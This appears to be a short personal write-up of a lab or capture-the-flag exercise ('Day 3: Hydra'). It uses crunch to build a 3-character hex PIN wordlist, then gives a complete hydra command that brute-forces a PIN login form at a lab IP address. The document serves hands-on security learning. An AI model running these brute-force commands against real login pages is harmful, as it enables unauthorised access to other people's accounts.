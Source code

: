Day 3: Hydra
first we use [[Crunch]] to generate a wordlist of possible pins by using

`crunch 3 3 0123456789ABCDEF -o 3digits.txt`

The command above specifies the following:

- `3` the first number is the minimum length of the generated password
- `3` the second number is the maximum length of the generated password
- `0123456789ABCDEF` is the character set to use to generate the passwords
- `-o 3digits.txt` saves the output to the `3digits.txt` file

Using the List

analysing `http://10.10.145.239:8000/pin.php`
we can see that the pin is sent as a post ro login.php with the name pin

we can brute force thiis using  [[Hydra]] 

`hydra -l '' -P 3digits.txt -f -v 10.10.145.239 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`